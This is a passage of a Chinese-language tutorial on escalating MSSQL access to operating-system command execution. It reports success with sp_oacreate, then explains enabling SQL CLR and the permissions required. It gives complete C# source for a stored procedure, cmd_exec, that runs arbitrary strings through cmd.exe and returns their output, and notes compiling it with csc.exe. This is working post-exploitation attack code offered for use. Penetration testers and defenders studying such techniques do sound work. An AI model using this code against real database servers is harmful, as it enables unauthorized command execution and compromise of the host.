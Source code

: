 ![img](https://www.yunzhijia.com/microblog/filesvr/5dab2ee06d67ff07ef514114)

到此，成功通过sp_oacreate 回显执行命令,与xp_cmdeshell无差。

## 启用mssql的CLR功能

 SQL CLR 实现了对 .NET Framework 的公共语言运行时(CLR)的集成 ，它能将外部的函数导入到 SQL Server 存储过程中，让 SQL Server 的部分数据库对象可以调用用户自定义函数，等同于Mysql数据库中的UDF。

SQL Server执行CLR,需要满足以下条件：

1、在MSSQL Server 上允许启用CLR 并创建自定义存储过程

2、拥有CREATE ASSEMBLY、EXEC，CREATE PROCEDURE 权限

附上测试代码：

```
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();
        proc.WaitForExit();
        proc.Close();
    }
};
```

关键代码在cmd_exec内，代码逻辑很简单，通过调用cmd进程，并将execCommand参数进行传递执行，并应用out属性返回输出参数。

调用 NET Framework目录下的csc.exe将代码编译成dll文件，csc.exe 是 .NET 提供在命令行下编译 cs 文件的工具，安装了.Net 环境的主机的默认位置在 C:\Windows\Microsoft.NET\Framework[.NET 具体版本号] 目录下
